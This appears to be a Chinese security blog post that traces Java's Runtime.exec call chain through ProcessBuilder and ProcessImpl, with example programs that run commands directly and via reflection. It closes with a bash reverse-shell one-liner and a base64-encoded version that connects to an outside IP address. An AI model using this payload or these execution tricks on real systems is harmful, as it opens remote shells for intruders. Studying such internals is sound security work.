










# 前言

在java中我们经常用到`Runtime.getRuntime.exec(command)`去执行命令,但是代码逻辑到底是什么,到底是怎么实现的,今天就想来总结一下

# Runtime命令执行分析

java的Runtime类下有6个重载了的exec方法



```
public Process exec(String command) throws IOException
public Process exec(String command, String[] envp) throws IOException
public Process exec(String command, String[] envp, File dir) throws IOException
public Process exec(String cmdarray[]) throws IOException
public Process exec(String[] cmdarray, String[] envp) throws IOException
public Process exec(String[] cmdarray, String[] envp, File dir) throws IOException
```

## 测试代码

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.Runtime;

public class RuntimeTest {
    public static void main(String[] args) throws IOException {
        //定义命令值
        String command = "whoami";
        //调用Runtime类
        Process p = Runtime.getRuntime().exec(command);//如果不是需要回显的命令,到这即可执行
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());//后面的代码主要是为了看回显
    }
}
```

## 实现过程

下个断点调试一下

跟进getRuntime()



一个静态方法可以直接调用,返回了一个静态值即Runtime的实例化对象

每次调用getRuntime()方法都会实例化一个Runtime对象

再跟进exec看看



非静态方法,需要实例化对象才能调用,刚好,getRuntime方法返回了应该实例化对象调用这里的exec方法

返回值调用了另外的exec方法,继续跟进



来到Runtime的另外一个exec方法,继续跟进到return还要返回另外的exec方法,再次跟进



这里new了应该ProccessBuilder对象并且调用了start方法,继续跟进start

在start方法中一路跟进,会调用ProccessImpl类的静态方法start



在这个start的137行又new了应该ProccessImpl对象



跟进ProccessImpl的构造函数

一路跟进到


在这个地方执行了命令

**调用流程**

1. public Process exec(String command)
2. public Process exec(String command, String[] envp, File dir)
3. public Process exec(String[] cmdarray, String[] envp, File dir)
4. ProcessBuilder.start()
5. ProcessImpl.start()
6. new ProcessImpl
7. creat()

# 反射调用Runtime执行命令

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class ReflectionExec {
    public static void main(String[] args) throws Exception{
        String command = "whoami";
        Class cls = Class.forName("java.lang.Runtime"); //Runtime加载进内存
//        Constructor declaredConstructor = cls.getDeclaredConstructor(); //获取构造方法
//        declaredConstructor.setAccessible(true);  //暴力反射
//        Object o = declaredConstructor.newInstance(); //创建Runtime类
//        Method exec = cls.getMethod("exec", String.class); //获取exec方法，设置需要参数string类型参数
//        Process process = (Process) exec.invoke(o,command);   //执行exec方法，并传入calc.exe参数
        Object runtime = cls.getMethod("getRuntime").invoke(null);
        Process process = (Process) cls.getMethod("exec", String.class).invoke(runtime,command);
        System.out.println(process);
        InputStream is = process.getInputStream();    //获取输出的数据
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}
```

可以用上面的代码反射调用Runtime来执行命令

# ProcessBuilder类

前面Runtime类执行命令的时候调用了ProcessBuilder类的start函数,那是不是就可以直接调用start来执行命令了

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;

public class ProcessBuilderTest {
    public static void main(String[] args) throws Exception{
        String command = "whoami";
        ProcessBuilder pro = new ProcessBuilder(command);
        Process p = pro.start();
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}
```



# ProcessImpl类

同样的，Runtime类调用了执行命令的过程中调用了ProcessImpl类的start方法,那直接调用这个类的start方法也可以执行命令了

不过这个类并不是共有的



所以我们只能通过反射去获取

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.*;
import java.util.Map;

public class ProcessImplTest {
    public static void main(String[] args) throws Exception{
        String[] command = {"calc"};
        Class Pro = Class.forName("java.lang.ProcessImpl");
        Method method = Pro.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        Process p = (Process) method.invoke(null, new String[]{command}, null, ".", null, true);//静态方法,invoke不需要传入对象
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}

```




使用Bash来反弹shell时由于`Runtime.getRuntime().exec()`中不能使用管道符等Bash需要的方法，故需要进行一次base64编码：`bash -i >& /dev/tcp/vps/2333 0>&1`：

最后的命令应该是

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}
```

